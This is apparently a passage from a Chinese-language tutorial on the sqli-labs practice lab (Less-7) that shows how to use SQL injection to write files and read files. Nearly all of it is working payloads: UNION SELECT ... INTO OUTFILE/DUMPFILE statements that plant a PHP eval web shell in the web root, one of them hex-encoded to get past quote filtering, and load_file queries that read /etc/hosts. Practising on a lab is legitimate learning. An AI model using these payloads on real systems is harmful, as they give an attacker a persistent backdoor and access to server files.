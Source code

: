 ![upload successful](./images/pasted-557.png)
判断完字段数后就进行写马

此语句用法就是将2位置构造函数的数据输出到自己创建的文件shell.php中

放入url中执行

代码如下 具体后面的文件路径按自己实际情况来编写 不要照搬我的路径
{% codeblock lang:PHP %}
union select 1,"<?php eval($_REQUEST[shell])?>",3 into outfile "D:/phpstudypro/WWW/sql/Less-7/shell.php" -- q

1 union select '<?php @eval($_POST['ganyu']);?>' into outfile 'var/www/html/shell.php'
绕过单引号十六进制编码
1 union select unhex(0x3C3F70687020406576616C28245F504F53545B2767616E7975275D293B3F3E) into dumpfile 'var/www/html/shell.php'
{% endcodeblock %}

![upload successful](./images/pasted-558.png)

读取:
{% codeblock lang:PHP %}
1 union select load_file('/etc/hosts')
绕过单引号十六进制编码
1 union select load_file(0x2F6574632F686F737473)
{% endcodeblock %}

